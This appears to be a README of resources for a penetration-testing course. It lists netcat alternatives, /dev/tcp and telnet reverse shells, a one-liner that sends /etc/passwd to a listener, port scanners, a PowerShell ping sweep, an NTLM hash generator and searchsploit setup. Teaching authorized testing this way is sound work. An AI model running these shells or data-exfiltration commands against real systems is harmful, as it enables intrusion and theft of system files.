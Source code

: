 # Resources referenced during SEC560 classes


## Day 2

### Neat things you can do with tcpdump

https://www.middlewareinventory.com/blog/tcpdump-capture-http-get-post-requests-apache-weblogic-websphere/


### Some fun with cowsay and lolcat (thanks to Jeff McJunkin):
    while true; clear; do echo "I'm a cow" | cowsay -f $(ls /usr/share/cowsay/cows/ | sort -R | head -n1) "I'm a cow" | lolcat -a; sleep 5; clear; done



### Netcat without netcat

Check for existence of similar tools:
Gnu Netcat
Ncat
Socat
Linkcat
Nc.py (sometimes called Pycat) http://atlas.r4780y.com/resources/atlasutils-2.2.5.tgz

#### /dev/tcp
File transfers:
Box 1: # nc -nlvp 4444
Box 2: $ cat /etc/passwd > /dev/tcp/10.0.0.1/4444

Reverse shell:
Box 1: # nc -nlvp 8080
Box 2: $ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

Port scanner ("Connection refused" means port is closed):
Single port:    $ echo > /dev/tcp/10.0.0.1/22
Multiple ports: $ port=1; while \[ $port –lt 1024 ]; do echo > /dev/tcp/\[IPaddr]/$port; \[ $? == 0 ] && echo $port "is open" >> /tmp/ports.txt; port=`expr $port + 1`; done


#### If /dev/tcp can't be used, try telnet
Reverse shell:
Box 1 (where you type commands):   # nc -nlvp 4444
Box 1 (where you view the output): # nc -nlvp 4445
Box 2: $ telnet 10.0.0.1 4444 | /bin/bash | telnet 10.0.0.1 4445



### Powershell
Ping sweep:

    PS C:\> 1..255 | % {ping –n 1 10.10.10.$_ | sls ttl}
    1..255 | % {echo "10.10.10.$_"; ping -n 1 -w 100 10.10.10.$_ | select-string ttl}

Port scan:

    21..80 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.1",$_)) “Port $_ is open" } 2>$null


## Day 5


Generate NTLM hash if you know the password:

    python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'


## After class is over

Build your own SEC560 lab environment:

10.10.10.5, 10.10.10.10, and 10.10.10.20 (the DC requires an additional step to promote it to a DC):
* https://1337red.wordpress.com/building-and-attacking-an-active-directory-lab-with-powershell/


## Install searchsploit on Slingshot
    sudo git clone https://github.com/offensive-security/exploitdb.git /opt/exploitdb
    sed 's|path_array+=(.*)|path_array+=("/opt/exploitdb")|g' /opt/exploitdb/.searchsploit_rc > ~/.searchsploit_rc
    sudo ln -sf /opt/exploitdb/searchsploit /usr/local/bin/searchsploit


## Credits
* Ed Skoudis
* http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
* egre55 and mrh4sh from hackthebox.eu
* Bryce from Australia
* Jeff McJunkin's great 560 class notes https://bit.ly/560notes
